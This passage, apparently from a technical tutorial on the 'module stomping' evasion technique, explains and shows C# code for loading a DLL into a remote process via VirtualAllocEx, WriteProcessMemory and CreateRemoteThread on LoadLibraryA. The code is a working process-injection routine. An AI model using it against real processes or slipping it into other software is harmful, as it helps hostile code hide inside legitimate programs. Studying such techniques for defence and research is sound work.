 ![](/images/module-stomping/notepad-default-modules.png "Notepad default loaded modules")

#### Load the DLL

This step actually presents an interesting challenge.  The "normal" way to load a DLL into a remote process may look something like this:

```c#
// Module name as byte[]
var moduleName = Encoding.ASCII.GetBytes("xpsservices.dll");

// Allocate memory and write module name into remote process
var alloc = Win32.VirtualAllocEx(process.Handle, IntPtr.Zero, (uint)moduleName.Length, Win32.AllocationType.Commit, Win32.MemoryProtection.ReadWrite);
Win32.WriteProcessMemory(process.Handle, alloc, moduleName, (uint)moduleName.Length, out UIntPtr _);

// Get location of LoadLibraryA in Kernel32
var kernel = Win32.LoadLibraryEx("kernel32.dll", IntPtr.Zero, DONT_RESOLVE_DLL_REFERENCES);
var loadLibrary = Win32.GetProcAddress(kernel, "LoadLibraryA");

// Call CRT at the location of the modulename and specify the LoadLibrary address as the start routine
Win32.CreateRemoteThread(process.Handle, IntPtr.Zero, 0, loadLibrary, alloc, 0, IntPtr.Zero);
```